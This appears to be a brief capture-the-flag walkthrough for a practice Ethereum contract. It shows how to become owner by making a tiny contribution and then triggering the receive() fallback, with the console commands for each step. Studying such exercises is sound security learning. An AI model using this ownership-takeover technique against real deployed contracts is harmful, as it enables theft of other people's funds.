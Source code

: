 Can either gain ownership through contribute() function, in which case we require over 100Ether (takes too long).
Or we can gain ownership by exploiting the Fallback function recieve(), which runs upon funds entering the contract without calldata.

Check who is owner.
`contract.owner()`

We need to be a contributer. So we send less than 0.001 eth to contribute function.
`contract.contribute({value: web3.toWei('0.0009')})`

Check we are a contributer.
`contract.getContribution().then(v=>v.toString())`

Now we just need to trigger the recieve() fallback.
`contract.sendTransaction({value: web3.toWei('0.0001')})`

Check we are now owner.
`contract.owner()`
`player`

